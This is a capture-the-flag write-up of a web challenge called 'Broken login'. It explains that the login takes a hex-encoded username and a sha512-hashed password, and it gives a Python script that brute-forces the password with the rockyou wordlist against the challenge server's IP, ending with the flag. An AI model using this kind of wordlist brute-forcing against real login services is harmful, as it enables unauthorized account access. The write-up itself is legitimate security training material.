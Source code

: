 Broken login (web/guessing, 365p, 20 solved)
Description
Intern season is up again and our new intern Alex had to do a simple login page. 
Not only the login page is not working properly, it is also highly insecure...

Flag format: CTF{sha256}
In the task we get a webpage with login form.

Task analysis
Once we type credentials in the form a POST is sent to /login and we get back redirect to /auth but our login got hex-encoded, parameter changed name from name to username and password turned into its sha512.

Solution
Guessing
It took us a very long time to guess that the login page is not working properly from task description was supposed to hint that this parameter name change was a bug.

Getting user
Once we go to /auth with name and password we get a new message Invalid user. Since the task description mentions Alex and we know we just need to hex-encode, we try with 416c6578 and we get Invalid password now.

Getting password
Now we spent very long time trying to guess the next step. Description hints at it is also highly insecure, so we expected some web-vulnerability, maybe SQLi or at least a timing attack of some sort when comparing password.

Finally the crystal ball has spoken -> maybe let's just try bruteforce the password with rockyou?

import codecs
import hashlib

import requests


def main():
    with codecs.open("rockyou.txt", 'rb') as pass_file:
        for p in pass_file.readlines():
            password = hashlib.sha512(p.strip()).hexdigest()
            print(password)
            name = 'Alex'.encode("hex")
            print(name)
            r = requests.get("http://35.234.65.24:31441/auth?name=" + name + "&password=" + password)
            if 'Invalid' not in r.text:
                print(p, r.text)
                break
            print(p, r.text)


main()
And after a moment we get: CTF{bf3dd66e1c8e91683070d17ec2afb13375488eee109a0724bb872c9d70b7cc3d}
